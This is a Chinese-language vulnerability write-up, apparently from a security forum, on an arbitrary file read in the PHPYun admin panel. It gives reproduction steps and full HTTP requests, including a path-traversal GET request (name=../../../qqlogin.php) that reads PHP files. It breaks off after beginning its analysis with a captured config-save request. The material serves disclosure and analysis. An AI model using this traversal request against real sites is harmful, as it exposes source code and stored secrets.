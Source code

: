 #### 步骤一

按照如下选择

```php
系统 -> 设置 -> 网站设置 -> 基本设置

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4d4ad0e9fbac6b1acc598933657b6d6599baff72.png)  
将网站地址修改为 `.` ，然后保存，保存后，如图所示  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-639e45fe01bff14fb238c14d407a833c36db40cd.png)

#### 步骤二

直接发包，可以读取 `php`文件

```http
GET /admin/index.php?m=database&c=down_sql&name=../../../qqlogin.php HTTP/1.1
Host: www.phpyun515.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://www.phpyun515.com/admin/index.php
Cookie: PHPSESSID=uje27rm43mjsqd2a8q5se7t5p3; XDEBUG_SESSION=PHPSTORM

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-51c32e401968f4b5267195b4874714c21a8821a4.png)

### 漏洞分析

#### 步骤一

更改基本设置抓包得到

```http
POST /admin/index.php?m=config&c=save HTTP/1.1
Host: www.phpyun515.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1411
Origin: http://www.phpyun515.com
Connection: close
Referer: http://www.phpyun515.com/admin/index.php?m=config
Cookie: PHPSESSID=uje27rm43mjsqd2a8q5se7t5p3; lasttime=1634997649; ashell=426baa111758bda8ca6191308815b762; XDEBUG_SESSION=PHPSTORM

```